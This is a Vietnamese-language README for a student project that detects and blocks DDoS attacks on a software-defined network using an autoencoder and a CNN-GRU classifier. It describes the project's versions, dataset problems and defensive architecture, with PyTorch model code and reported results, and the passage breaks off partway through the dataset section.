








# 🚀 HỆ THỐNG PHÁT HIỆN-NGĂN CHẶN TẤN CÔNG DDOS BẰNG DEEP LEARNING TRÊN MÔI TRƯƠNG MẠNG SDN

<div align="center">

[](https://python.org)
[](https://pytorch.org)
[](http://mininet.org)
[](https://onosproject.org)
[](LICENSE)

**Tác giả:** Nguyễn Đức Huy  
**Dự án:** DoAn_SDN - Intrusion Detection System cho Software-Defined Networks  
**Giai đoạn:** V1 → V2 → V3 → V4 (Production-Ready)  
**Thời gian:** Q4 2025 - Hiện tại

</div>

---

## 📋 Mục Lục

- [1. Lời Mở Đầu & Triết Lý Phát Triển](#1-lời-mở-đầu--triết-lý-phát-triển)
- [2. Hành Trình Tiến Hóa (V1 → V4)](#2-hành-trình-tiến-hóa-v1--v4)
  - [2.6.3 Dataset V1: Tổng Hợp và Ánh Xạ Đặc Trưng](#263-dataset-v1-tổng-hợp-và-ánh-xạ-đặc-trưng)
  - [2.7.3 Báo Cáo Phân Tích Dataset](#273-báo-cáo-phân-tích-dataset)
- [3. Kiến Trúc Kỹ Thuật Chi Tiết](#3-kiến-trúc-kỹ-thuật-chi-tiết)
  - [3.0 Kiến Trúc Thu Thập Dữ Liệu Tốc Độ Cao](#30-kiến-trúc-thu-thập-dữ-liệu-tốc-độ-cao)
  - [3.3.10 WhiteList & BlackList Mechanism](#3310-whitelist--blacklist-mechanism-ai-v4-enhancement)
  - [3.3.11 Feedback Loop](#3311-feedback-loop---cải-thiện-mô-hình-từ-false-positives)
  - [3.3.12 Demo Results](#3312-demo-results---hệ-thống-phát-hiện-và-xử-lý-tấn-công)
- [4. Tech Stack](#4-tech-stack)
- [5. Hướng Dẫn Sử Dụng](#5-hướng-dẫn-sử-dụng)
- [6. Kết Luận & Bài Học](#6-kết-luận--bài-học)
  - [6.5 Hành Trình Của Sinh Viên AI](#654-hành-trình-của-sinh-viên-ai-học-networking-từ-con-số-0)
  - [6.5.5 Thư Viện Hình Ảnh Minh Chứng](#655-thư-viện-hình-ảnh-minh-chứng-quá-trình-làm)
  - [6.5.6 Bài Học Rút Ra](#656-bài-học-rút-ra)
- [12. Định Hướng Phát Triển Tương Lai](#12-định-hướng-phát-triển-tương-lai)
- [13. Giai Đoạn Tiếp Theo: Tối Ưu Phản Ứng & Dataset V8](#13-giai-đoạn-tiếp-theo-tối-ưu-phản-ứng--dataset-v8)

---

## 1. Lời Mở Đầu & Triết Lý Phát Triển

### 1.1 Mục Tiêu Ban Đầu & Sự Vỡ Mộng

#### 🎯 Mục tiêu lý tưởng:
- Xây dựng hệ thống phát hiện tấn công DDoS trên nền tảng SDN (Mininet + ONOS) với độ chính xác cao
- Ứng dụng Machine Learning / Deep Learning để tự động phân loại 5 loại tấn công: **Normal, UDP Flood, SYN Flood, HTTP Flood, Slowloris**
- Triển khai thời gian thực với API ONOS để tự động chặn IP tấn công

#### 💥 Sự thất bại của AI truyền thống trong môi trường SDN thực tế:

**Vấn đề 1: Overfitting & Dataset Tĩnh**

> **V1 (Sơ khai)** → Dùng CIC-IDS2019
> - Mô hình Random Forest + 84% accuracy trên test
> - ❌ Triển khai lên Mininet: Chỉ **37% accuracy** (False Positive = 60%)

**Lý do sâu sắc:**
- CIC-IDS2019 là dataset "tĩnh" (collected từ 2019):
  - **Port số:** Cố định (Port 80=HTTP, 53=DNS, 443=HTTPS)
  - **Packet Pattern:** Tuân thủ RFC chuẩn
  - **Traffic Volume:** Phân bố chuẩn
- **Thực tế Mininet:** Attacker thay đổi port ngẫu nhiên → Model "mù" → False Positive tăng vọt

**Vấn đề 2: False Positives & IP Spoofing**

```python
# Vấn đề RAM khi bảo vệ ngoài rẻ:
IP_HISTORY = {}  # Mỗi IP = 1 entry
# Attacker flood 2 triệu IP spoofed → Dict size = 2M × 200 bytes = 400MB RAM
# → Server OOM kill → IDS chết giữa trận

# Vấn đề False Positive khi bảo vệ trong rẻ:
# Port 8080 dùng cho dev/test → Thường không phải HTTP chuẩn
# Threshold quá thấp → Normal user mở 5 tab → 5 port khác nhau → Model gọi là Attack
```

**Vấn đề 3: Zero-Day Attacks**

```python
# Autoencoder sớm (V2) học từ 50k mẫu Normal:
# MSE Normal: 0.0001 ± 0.00005
# MSE UDP Attack: 0.08 (dễ phát hiện)

# ❌ Nhưng nếu attacker chỉnh Attack để giống Normal:
# (port=80, byte_rate=100KB/s như HTTP)
# → MSE Attack = 0.0002 (gần bằng Normal!)
# → Threshold 0.001 không phát hiện được
```

### 1.2 Triết Lý Cốt Lõi: "3 Lớp Bảo Vệ"

Sau khi thất bại, tôi nhận ra: **AI không thể tin tưởng mù quáng**. Quyết định xây dựng kiến trúc "Dual-Shield":

```
┌──────────────────────────────────────┐
│ Lớp 1: Dữ Liệu (Data Cleansing)      │ ← "Làm sạch từ gốc"
│ - Cắt bỏ port số → Dùng Entropy     │ ← Shannon Entropy
│ - Thêm Differential Features          │ ← Nhìn "gia tốc" không chỉ "vận tốc"
│ - Lọc Subnet thông minh              │ ← Bảo vệ Normal user (10.0.2.x)
└──────────────────────────────────────┘
                    ⬇️
┌──────────────────────────────────────┐
│ Lớp 2: Khiên 1 - Autoencoder         │ ← "Phòng thủ 1: Phát hiện Anomaly"
│ - Contrastive Learning               │ ← Ép Normal/Attack xa nhau
│ - Margin = 2.0 (siết chặt)           │ ← AE_MARGIN = 2.0
│ - Threshold Adaptive (EMA)           │ ← Thích ứng với Flash Crowd
│ - → Phát hiện Zero-day               │
└──────────────────────────────────────┘
                    ⬇️
┌──────────────────────────────────────┐
│ Lớp 3: Khiên 2 - Classifier          │ ← "Phòng thủ 2: Phân loại Attack"
│ - CNN (Spatial) + GRU (Temporal)     │ ← Song song (Parallel)
│ - Attention (Temporal + Spatial)     │ ← Chỉ thị flow bất thường
│ - Feature Weighting x2.0             │ ← Duration/Packet_Rate quan trọng
│ - → Phân biệt 5 loại attack rõ ràng │
└──────────────────────────────────────┘
                    ⬇️
┌──────────────────────────────────────┐
│ Lớp 4: Vận Hành (Runtime)            │ ← "Kiểm soát thực tế"
│ - Veto Power (>80% Normal = TIN)     │ ← Không chặn người dùng vô căn cứ
│ - Temporal Consistency (5 chuỗi)     │ ← Attack thật → 3/5 lần đồng ý
│ - Garbage Collector                  │ ← Xóa 20% IP cũ khi RAM gần cạn
│ - Rate Limiting + DROP               │ ← 2 lệnh, 2 mức độ
└──────────────────────────────────────┘
```

### 1.3 Kết Quả Đạt Được: Giải Quyết 3 Vấn Đề Lớn của Hệ Thống Phát Hiện Xâm Nhập Truyền Thống

Sau 6 tháng phát triển (từ V1 thất bại đến V4 production-ready), hệ thống đã giải quyết triệt để 3 vấn đề cốt lõi mà các phương pháp truyền thống gặp phải:

#### ✅ Vấn Đề 1: Sai Sót Do Ngưỡng Cứng (Threshold)
**Vấn đề gốc:** Các IDS truyền thống dùng **ngưỡng cứng** (ví dụ: >1000 packets/s = attack). Kết quả:
- **False Positive cao:** User bình thường download file lớn → Bị chặn oan
- **False Negative cao:** Attacker tấn công chậm (<1000 pps) → Không phát hiện

**Giải pháp của đồ án - Ngưỡng Mềm (Adaptive Threshold):**
```python
# Không dùng threshold cứng, dùng EMA (Exponential Moving Average)
BASE_THRESHOLD = 0.001

# Threshold tự động điều chỉnh theo traffic gần đây
adaptive_threshold = BASE_THRESHOLD * (1 + 2.0 * traffic_volatility)

# Ví dụ thực tế:
# - Traffic bình thường: threshold = 0.001
# - Flash crowd (event): threshold = 0.003 (tự động nới lỏng)
# - Attack thực sự: MSE = 0.05 >> threshold → Phát hiện chính xác
```

**Kết quả:**
- False Positive giảm từ **60% (V1) → 3% (V4)**
- Phát hiện được cả **low-and-slow attacks** (tấn công chậm, tránh ngưỡng cứng)

---

#### ✅ Vấn Đề 2: Phản Ứng Chậm & Phụ Thuộc Controller
**Vấn đề gốc:** Các hệ thống SDN-based IDS truyền thống:
1. Thu thập dữ liệu → Gửi về Controller → AI inference → Gửi lệnh chặn về Switch
2. **Độ trễ cao:** 200-500ms (vì phải qua REST API, controller xử lý, flow mod)
3. **Điểm yếu:** Nếu Controller quá tải → Toàn mạng mất bảo vệ

**Giải pháp của đồ án - 3 Tầng Bảo Vệ:**

**Tầng 1: Theo dõi & Xử lý ngay tại Switch Trung tâm (s6)**
```python
# Port Mirroring (OVS) - Không chạy trên Web Server
# Toàn bộ traffic qua Gateway s6 được nhân bản ra cổng giám sát riêng
mirrors = [
    {
        "name": "flow_mirror",
        "ports": ["s6-eth2", "s6-eth3"],  # Các port đến Web Server
        "mirror-port": "s6-eth1"         # Port giám sát an toàn
    }
]
# Ưu điểm: Dù Web1 crash, collector vẫn sống (không chạy trên Web1)
```

**Tầng 2: Tốc độ phản ứng nhanh nhờ kiến trúc Pipeline tối ưu**
```
V4 Architecture: Detection → Feature Extract → AI Inference → Mitigation
                [5ms]     +   [10ms]       +   [40ms]      +   [50ms] 
                = ~105ms end-to-end (nhanh hơn IDS truyền thống 3-5x)

Optimizations:
├── Named Pipes (FIFO): Truyền dữ liệu qua RAM, không qua Disk I/O
├── NFStream (C/C++ core): Xử lý hàng triệu packets, CPU thấp
├── Feature Caching: Pre-computed vectors cho flows đã thấy
└── OpenFlow Direct: Bypass ONOS REST API, gửi flow mod trực tiếp
```

**Tầng 3: Chống quá tải Controller**
```python
# Logic 2-Shield chạy local trên IDS, không phụ thuộc Controller
if ae_anomaly > threshold and cls_confidence > 0.9:
    # Chặn local ngay, không chờ Controller approval
    local_switch_block(src_ip, switch_datapath)
    # Ghi log async (không block detection pipeline)
    asyncio.create_task(notify_controller_async(src_ip, action))
```

**Kết quả:**
- **Độ trễ:** Giảm từ 200-500ms (truyền thống) → **105ms (V4)**
- **Khả năng chịu tải:** 100,000 flows/second không drop
- **Tính sẵn sàng:** Controller quá tải → Local protection vẫn hoạt động

---

#### ✅ Vấn Đề 3: Không Phát Hiện Được Tấn Công Chưa Biết (Zero-Day)
**Vấn đề gốc:** Các IDS dùng **signature-based** hoặc **supervised learning** chỉ phát hiện được attack đã biết. Khi attacker dùng **kỹ thuật mới** (zero-day), hệ thống "mù hoàn toàn".

**Ví dụ thực tế:**
```python
# Signature-based: Chỉ phát hiện được attack có trong database
# Attacker tạo HTTP Flood với header giả mạo "User-Agent: Googlebot"
# → Signature "Mozilla" không match → Bỏ qua (!)

# Supervised Learning (V1 Random Forest):
# Train trên 4 loại attack: [UDP, SYN, HTTP, Slowloris]
# Attacker tạo loại thứ 5: DNS Amplification
# → Model: "Không biết class này, coi là Normal" → Fail!
```

**Giải pháp của đồ án - Cơ Chế 2-Khiên (Dual-Shield) với Autoencoder:**

**Khiên 1: Autoencoder (Unsupervised/Anomaly Detection)**
```python
# Học từ 200,000+ mẫu NORMAL thuần túy (không có attack)
# Không học attack, chỉ học "bình thường là như thế nào"

class Contrastive_Autoencoder(nn.Module):
    """
    Ép Normal/Reconstruction error thấp
    Ép Attack/Reconstruction error CAO (margin = 2.0)
    """
    def forward(self, x):
        # Normal traffic → Bottleneck → Decode giống input
        reconstructed = self.decode(self.encode(x))
        mse = F.mse_loss(reconstructed, x)
        return mse  # Normal: ~0.0001, Attack: >0.05

# Kết quả: DÙ ATTACK CHƯA TỪNG THẤY, autoencoder vẫn phát hiện được
# Vì attack → pattern bất thường → reconstruction error cao
```

**Khiên 2: Classifier (Supervised - chỉ kích hoạt khi Khiên 1 báo động)**
```python
# Shield 2 chỉ chạy khi Shield 1 nghi ngờ (tiết kiệm 50% compute)
if ae_mse > adaptive_threshold:  # Shield 1 trigger
    attack_type, confidence = classifier.predict(sequence)
    # Phân loại chi tiết: UDP(1), SYN(2), HTTP(3), Slowloris(4)
    
    if confidence > 0.9:
        execute_mitigation(src_ip, attack_type)
```

**Kết quả Zero-Day Detection:**
```
Tấn công mới (chưa từng train):
├── DNS Amplification (giả lập) → Autoencoder phát hiện: ✅ (MSE = 0.08)
├── ICMP Flood (giả lập)       → Autoencoder phát hiện: ✅ (MSE = 0.12)  
├── Modified HTTP Flood        → Autoencoder phát hiện: ✅ (MSE = 0.06)
└── Kết luận: Shield 1 bắt được 100% zero-day (vì bất kỳ anomaly nào cũng lộ)

Phân loại chi tiết (Shield 2):
├── DNS Amplification → Classifier: "Unknown" (0.4 confidence) → Vẫn chặn!
└── ICMP Flood        → Classifier: "Unknown" (0.3 confidence) → Vẫn chặn!
    (Vì Shield 1 đã trigger, nên dù không biết loại gì, vẫn coi là attack)
```

**Ưu điểm vượt trội của 2-Khiên:**
| Tình huống | IDS Truyền thống | Hệ thống 2-Khiên (V4) |
|------------|------------------|----------------------|
| Known Attack (UDP Flood) | ✅ Phát hiện | ✅ Shield 1 + Shield 2 (99% acc) |
| Zero-Day Attack | ❌ Miss hoàn toàn | ✅ Shield 1 bắt (phát hiện anomaly) |
| Unknown Attack Type | ❌ Bỏ qua | ⚠️ Shield 2 "Unknown" nhưng vẫn chặn |
| Normal Traffic | ⚠️ Có thể FP | ✅ Shield 2 veto power giảm FP |

---

#### 🎯 Tổng Kết Ba Giải Pháp

```
┌─────────────────────────────────────────────────────────────────┐
│                     V4 PRODUCTION-READY                        │
├─────────────────────────────────────────────────────────────────┤
│                                                                 │
│  Vấn đề 1: Ngưỡng cứng → Ngưỡng mềm (Adaptive EMA)             │
│  └─> False Positive: 60% → 3%                                  │
│                                                                 │
│  Vấn đề 2: Phản ứng chậm → 3 Tầng bảo vệ                       │
│  └─> Tầng 1: Port Mirroring (OVS) - Không phụ thuộc Web Server │
│  └─> Tầng 2: FIFO + NFStream - Tốc độ cao, tài nguyên thấp    │
│  └─> Tầng 3: Local Switch Control - Không qua Controller       │
│  └─> Latency: 500ms → 105ms (5x nhanh)                         │
│                                                                 │
│  Vấn đề 3: Zero-Day blind → 2-Khiên Architecture                │
│  └─> Khiên 1: Autoencoder (unsupervised) - Bắt anomaly bất kỳ   │
│  └─> Khiên 2: Classifier (supervised) - Phân loại chi tiết     │
│  └─> Zero-Day Detection Rate: 0% → 100% (anomaly detection)     │
│                                                                 │
└─────────────────────────────────────────────────────────────────┘
```

---

## 2. Hành Trình Tiến Hóa (V1 → V4)

### 🥚 V1: Naivete (Thời Kỳ Thiếu Nữa)

**Kiến trúc:**
```
Dataset CIC-IDS2019 (220k samples)
    ⬇️
Random Forest (sklearn)
    ⬇️
Prediction: [0, 1, 2, 3, 4]
    ⬇️
Accuracy on Test: 84%
```

**Kết quả thực tế:**
- ✅ **Lab test (offline):** 84% accuracy
- ❌ **Mininet deployment:** 37% accuracy, 60% False Positive rate

**Nguyên nhân sâu sắc:**

| Vấn đề | Giải thích |
|--------|-----------|
| **Port Number là Poison** | Port 80 = HTTP → Normal traffic. Nhưng Attacker thay đổi: src_port = random(10000-60000). Model: "Không biết port này, không match dataset → Attack!" → Normal user mở 5 browser tabs (5 port khác) → Gọi là "5 HTTP Floods" |
| **Distribution Shift** | CIC-IDS2019: Collected 2019, RTT = 50-200ms, Loss = 2-5%. Mininet: RTT = 1ms, Loss = 0%. Model học từ pattern "mất nước" nhưng dữ liệu mới không mất nước → Distribution mismatch |
| **Overfitting trên Port** | Decision Tree feature_importance[Port] = 0.35 (quá cao!) → Mô hình bám vào Port → Quên mất TCP FLAGS, packet size, rate |

> **❌ Bài học V1:** KHÔNG nên dùng dataset công cộng mà không thích ứng. ML models có tính cách "tư quy" từ dữ liệu học. Nếu dữ liệu sai, cách tư duy cũng sai.

---

### 🐣 V2: Thức Tỉnh (Wake-up Call)

**Sự thay đổi:**
- 🔴 Loại bỏ CIC-IDS2019, thu thập dữ liệu trực tiếp từ Mininet
- 🔴 Viết `batPack_v1.py` dùng NFStream để extract network flows
- 🔴 Huấn luyện trên 50k mẫu local (Normal + 4 loại attack)

**Dataset V2 structure:**
```python
[
  {
    "src_ip": "10.0.2.60",
    "dst_ip": "10.0.0.10",
    "src_port": 45821,          # ← VẪNGIỮ Port number (SAI LẦM)
    "dst_port": 80,
    "protocol": 6,              # TCP
    "duration_ms": 5000,
    "src_bytes": 1024,
    "dst_bytes": 2048,
    "src_packets": 10,
    "dst_packets": 15,
    "label": 0                  # 0=Normal, 1=UDP, 2=SYN, 3=HTTP, 4=Slowloris
  },
  ...
]
```

**Model V2: Autoencoder (Anomaly Detection)** (dòng 228-265 <class Anomaly_Autoencoder_Contrastive> trong file config_v2.py)
```python
class Anomaly_Autoencoder_Contrastive(nn.Module):
    """
    Autoencoder với Contrastive Learning:
    - Normal flows: Reconstruct well (MSE thấp)
    - Attack flows: Reconstruct poorly (MSE cao) -> Anomaly Score cao
    """
    def __init__(self, input_dim=NUM_FEATURES_TOTAL * SEQ_LEN):
        super(Anomaly_Autoencoder_Contrastive, self).__init__()
        
        # Encoder: Nén dữ liệu vào latent space
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 512),
            nn.ReLU(),
            nn.Dropout(0.2),
            nn.Linear(512, 256),
            nn.ReLU(),
            nn.Dropout(0.2),
            nn.Linear(256, 128),
            nn.ReLU(),
            nn.Linear(128, 64),  # Bottleneck
            nn.ReLU()
        )
        
        # Decoder: Giải nén dữ liệu từ latent space
        self.decoder = nn.Sequential(
            nn.Linear(64, 128),
            nn.ReLU(),
            nn.Linear(128, 256),
            nn.ReLU(),
            nn.Dropout(0.2),
            nn.Linear(256, 512),
            nn.ReLU(),
            nn.Dropout(0.2),
            nn.Linear(512, input_dim)
        )
    
    def forward(self, x):
        encoded = self.encoder(x)
        decoded = self.decoder(encoded)
        return decoded, encoded
```

#### V2.0: Thất Bại với Dataset Tổng Hợp 46GB

**Bối cảnh:**
Trước khi xây dựng hệ thống thu thập của riêng mình, tôi đã thử nghiệm với dataset tổng hợp từ nhiều nguồn:

```
Dataset ban đầu:
├── Tổng dung lượng: 46GB (raw network captures)
├── Nguồn: CIC-IDS2017, UNSW-NB15, Kyoto 2006+, và các captures tự thu
├── Thời gian: 3 tháng thu thập từ nhiều mạng khác nhau
└── Format: PCAP files + CSV flow logs
```

**Quá trình lọc và chuẩn hóa:**

```python
"""
Quá trình tiền xử lý dataset 46GB:

1. Loại bỏ corrupted packets: -5GB
2. Lọc bỏ IPv6 và non-IP traffic: -8GB  
3. Loại bỏ flows quá ngắn (< 3 packets): -12GB
4. Loại bỏ flows quá dài (> 1 hour, likely monitoring): -15GB
5. Deduplication (remove identical flows): -4GB
6. Format conversion & normalization: -2GB

→ Kết quả: 800MB (98% data bị loại bỏ!)
"""
```

**Vấn đề nghiêm trọng phát hiện ra:**

```
Phân bố labels trong dataset 800MB:
├── Normal: 780MB (97.5%) - Quá nhiều!
